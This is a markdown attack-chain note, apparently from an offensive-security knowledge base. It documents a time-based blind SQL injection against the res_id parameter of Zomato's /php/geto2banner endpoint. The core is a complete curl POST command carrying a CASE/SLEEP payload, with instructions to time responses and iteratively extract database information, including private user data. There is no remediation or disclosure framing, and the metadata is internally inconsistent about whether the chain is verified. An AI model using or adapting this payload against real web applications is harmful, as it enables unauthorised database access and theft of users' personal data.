

---
tags:
  - sqli
  - blind-sqli
  - web
  - mysql
  - php
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-01-01T00:00:00Z'
procedures:
  - '[[procedures/Exploiting-Blind-SQL-Injection-with-SLEEP-Payload]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:15:04.806Z'
description: >-
  Multi-stage attack chain exploiting a Blind SQL Injection vulnerability in the
  res_id parameter of Zomato's /php/geto2banner endpoint to infer and extract
  sensitive database information.
skill_level: intermediate
impact_level: high
id: 3a7ba013-31d1-4fc6-8220-94ffe7f8dc08
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind SQL Injection Exploitation in Zomato's geto2banner Endpoint

Multi-stage attack chain demonstrating a complete attack workflow exploiting Blind SQL Injection to access sensitive user data from Zomato's database.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-post-sqli-payload]]

### Target Environment

- Web platform with PHP backend
- MySQL database service
- Accessible HTTP/HTTPS endpoint

### Initial Access Requirements

- Network access to www.zomato.com
- No authentication required
- Ability to send POST requests

## Detailed Attack Procedures

### Step 1: Exploit Blind SQL Injection
procedure: [[procedures/Exploiting-Blind-SQL-Injection-with-SLEEP-Payload]]

**Objective**: Send a crafted POST request to the /php/geto2banner endpoint to inject a conditional SQL payload that causes a delay, allowing blind inference of database details like version length.

**Instructions**: Use [[commands/curl-post-sqli-payload]] to send the request with the malicious res_id parameter:

```bash
curl -X POST https://www.zomato.com/php/geto2banner \
  -H "Host: www.zomato.com" \
  -H "Connection: close" \
  -H "Content-Length: 73" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36" \
  -H "Content-type: application/x-www-form-urlencoded" \
  -H "Accept: */*" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Accept-Language: en" \
  -d "res_id=51-CASE/**/WHEN(LENGTH(version())=10)THEN(SLEEP(6*1))END&city_id=0"
```

Monitor the response time; a delay of approximately 6 seconds indicates the condition is true, confirming the injection and allowing iterative data extraction.

**Expected Output**: HTTP response with a noticeable delay if the SQL condition (e.g., LENGTH(version())=10) is met, enabling blind extraction of database information.

**Success Indicators**:
- Response delay of 6 seconds or more
- No immediate error; successful query execution inferred from timing

## Attack Chain Summary

### Key Achievements

1. Successful injection into the res_id parameter via LocalParams abuse
2. Blind inference of database version and other sensitive data lengths
3. Potential full access to private user information in the MySQL database

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2024-01-01T00:00:00Z*
